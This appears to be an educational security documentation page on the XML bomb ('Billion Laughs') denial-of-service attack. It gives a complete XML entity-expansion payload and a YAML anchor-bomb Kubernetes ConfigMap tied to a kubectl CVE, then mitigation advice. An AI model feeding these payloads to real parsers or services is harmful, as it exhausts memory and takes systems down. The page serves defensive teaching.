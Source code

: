 ```yaml
---
name: XML Bomb
menu: Attacks explained
route: /attacks_explained/xml_bomb
---
```


# XML Bomb Attack

## The Attack


<iframe width="100%" height="450"
src="https://www.youtube.com/embed/WQUiub2hc0c">
</iframe>



### Classic "Billion Laughs" attack

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```



### Variations for "Billion Laughs" attack

As an example of a YAML configuration file with [the same vulnerability that affected kubectl (CVE-2019-11253)](https://github.com/kubernetes/kubernetes/issues/83253):

```yml
apiVersion: v1
data:
  a: &a ["web","web","web","web","web","web","web","web","web"]
  b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
  c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
  d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
  e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
  f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
  g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
  h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
  i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
kind: ConfigMap
metadata:
  name: yaml-bomb
  namespace: default
```

## The solution

Use less complex data formats such as JSON.

## Mitigation

In case that you must need to use XML...

> Be sure to follow the principle of attack surface reduction and disable entity expansion if you don’t require its use. Otherwise, apply appropriate defenses to limit the maximum amount of time and memory your application can spend on it.  
> Bryan Sullivan


### Refs
- [Wikipedia | ]()
- [Microsoft | Security Briefs - XML Denial of Service Attacks and Defenses](https://docs.microsoft.com/en-us/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)